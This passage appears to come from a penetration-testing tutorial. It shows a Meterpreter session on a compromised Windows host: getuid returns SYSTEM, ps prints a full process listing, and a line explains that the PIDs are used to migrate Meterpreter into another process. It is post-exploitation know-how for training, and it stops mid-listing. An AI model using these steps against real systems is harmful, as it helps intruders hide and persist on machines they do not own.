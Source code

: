            
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >

        

The ps command will list running processes. The PID column will also give you the PID information you will need to migrate Meterpreter to another process.
The ps command

           
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 396   644   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 428   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 548   540   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 596   540   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 604   588   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 644   588   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 692   596   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 700   692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  
 716   596   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 724   596   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 764   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 828   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 864   828   WmiPrvSE.exe                                                       
 900   692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  
 952   692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1076  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1164  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 1168  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  
 1244  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 1276  1304  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe
 1304  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1340  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1388  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe[...]
